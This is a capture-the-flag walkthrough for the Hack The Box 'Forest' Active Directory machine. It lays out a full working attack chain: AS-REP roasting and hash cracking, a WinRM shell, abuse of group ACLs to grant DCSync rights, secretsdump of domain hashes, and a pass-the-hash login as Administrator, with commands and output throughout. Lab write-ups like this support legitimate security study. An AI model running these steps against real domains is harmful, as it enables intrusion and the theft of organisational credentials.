

# Attack Chain

```
Null Session (SMB / LDAP)
└─► AS-REP Roasting ─► svc-alfresco (DONT_REQ_PREAUTH)
    └─► Crack (hashcat -m 18200) ─► svc-alfresco : s3rvice
        └─► WinRM ─► Shell (user.txt)
            └─► BloodHound ─► svc-alfresco ∈ Account Operators
                └─► GenericAll ─► self-add to "Exchange Windows Permissions"
                    └─► WriteDacl sur le domaine (htb.local) ─► grant DCSync
                        └─► secretsdump (DCSync) ─► Administrator NT hash
                            └─► WinRM Pass-the-Hash ─► Shell (root.txt)
```
# Summary

- [Enumeration](#enumeration)
	- [nmap](#nmap)
	- [SMB](#smb)
- [Asreproasting](#asreproasting)
- [Bloodhound](#bloodhound)
- [Shell as svc-alfresco](#shell-as-svc-alfresco)
- [Privilege Escalation](#privilege-escalation)
	- [Add svc-alfresco to Exchange Group](#add-svc-alfresco-to-exchange-group)
	- [Add DCSync rights](#add-dcsync-rights)
	- [DCSync](#dcsync)
	- [Shell as Administrator](#shell-as-administrator)

---
# Enumeration

### nmap

Let's start by scanning the target.

```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-06-27 00:21:30Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m33s, deviation: 4h02m29s, median: 6m32s
| smb2-time: 
|   date: 2026-06-27T00:21:44
|_  start_date: 2026-06-27T00:18:33
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2026-06-26T17:21:42-07:00
```

> [!NOTE]
> **Observations**
> - Target is an Active Directory
> - FQDN is `forest.htb.local`
> - Target's domain is `htb.local`

We can modify our `/etc/hosts` file to resolve the target correctly.

```
echo '10.129.*.* htb.local FOREST.htb.local FOREST' | tee -a /etc/hosts
```

### SMB

We do not have creds, but we can still try to connect to SMB with a null session.

```
nxc smb 10.129.*.* -u '' -p ''
SMB         10.129.*.*  445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.*.*   445    FOREST           [+] htb.local\: 
```

The connection is valid, so Null Authentication is enabled. Let's try to list the shares.

```
nxc smb 10.129.*.* -u '' -p '' --shares                                           
SMB         10.129.*.*  445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.*.*   445    FOREST           [+] htb.local\: 
SMB         10.129.*.*   445    FOREST           [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

We don't have access so we can't list the shares. 

The `guest` account is also disabled :

```
nxc smb 10.129.*.* -u 'guest' -p ''                                               
SMB         10.129.*.*   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.*.*   445    FOREST           [-] htb.local\guest: STATUS_ACCOUNT_DISABLED
```

# Asreproasting

Since we can't access the shares, we can try Kerberoasting and ASREProasting.

```
nxc ldap 10.129.*.* -u '' -p '' --asreproast asrep.txt

LDAP        10.129.*.*   389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.*.*   389    FOREST           [+] htb.local\: 
LDAP        10.129.*.*   389    FOREST           [*] Total of records returned 1
LDAP        10.129.*.*   389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:bfba58d10d235c1f7927bdd0331f707e$518f06d157ac2ab7fabd3f8c060fcd18fcf08dc4bbe8a6e18899611f5ec9c5e074c3a7287d29b4ae9279a3a40c5130176f3551cc14d9dfd87cb46c0844df559f4f52b76181956c97717584bc4327ed8c5b5e9b07425ab787fd7776c5f7c436fe728c5986ff9c0270ff11aa74ff83eb61f08a12f58bff1dfb1ce73ebf2c1db81daf524bab71b436cab2f769e81f1c8dfc6d4569c1ec1fa7081b2712452deb8a9ebfacf5d184c00d678e18146666293098f379452af9716a22a51f599b93a996100ec50e26cacdf1ef4651c5116885d51edb7c349681bab907e665269168b1115286611fa60adb
```

ASREProast works and we successfully retrieved the hash for the user `svc-alfresco`.

Let's try to crack it.

```
echo '<hash>' > hash.txt
```

```

hashcat hash.txt /usr/share/wordlist/rockyou.txt

<SNIP>

$krb5asrep$23$svc-alfresco@HTB.LOCAL:<hash>:s3rvice
```

We cracked the password, we can check if the account is valid with `NetExec`.

```
nxc smb 10.129.*.* -u 'svc-alfresco' -p 's3rvice'
SMB         10.129.*.*   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.*.*   445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
```

> [!TIP]
> **Credentials obtained**
> `svc-alfresco` : `s3rvice`

# Bloodhound

Now that we have a valid user, we can collect data using the bloodhound collector.

```
bloodhound.py --zip -c All -d "htb.local" -u "svc-alfresco" -p "s3rvice" -dc "FOREST.htb.local" -ns 10.129.*.*
```

And look at the collected data.


# Shell as svc-alfresco

From the graph, we know that we can connect to the target over WinRM.

```
evil-winrm -i forest.htb.local -u svc-alfresco -p s3rvice

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

We can grab the user.txt from here.

# Privilege Escalation

Let's get back to **Bloodhound** now and look for weak ACLs.



Since we are a member of the group **Account Operators**, we have `GenericAll` on a lot of groups, not on the most privileged ones though.

But among all these groups,  **Exchange Windows Permissions** is the one that will let us perform a DCSync attack on the domain since it has the right `WriteDacl` on the object **htb.local**.

### Add svc-alfresco to Exchange Group

First we add our compromised user to that group.

```
bloodyAD --host "htb.local" -d "forest.htb.local" -u "svc-alfresco" -p "s3rvice" add groupMember "EXCHANGE WINDOWS PERMISSIONS" svc-alfresco

[+] svc-alfresco added to EXCHANGE WINDOWS PERMISSIONS
```

### Add DCSync rights

Then we grant it DCSync rights.

```
bloodyAD --host "htb.local" -d "forest.htb.local" -u "svc-alfresco" -p "s3rvice" add dcsync svc-alfresco

[+] svc-alfresco is now able to DCSync
```

### DCSync

And we can finally perform a DCSync attack and retrieve every hash of the domain.

```
secretsdump.py "htb.local"/"svc-alfresco":"s3rvice"@"forest.htb.local"

<SNIP>

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

<SNIP>
```

### Shell as Administrator

Once we have the administrator hash, we can connect to the target over WinRM.

```
evil-winrm -i forest.htb.local -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6

<SNIP>

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


> [!TIP]
> **Machine Rooted**

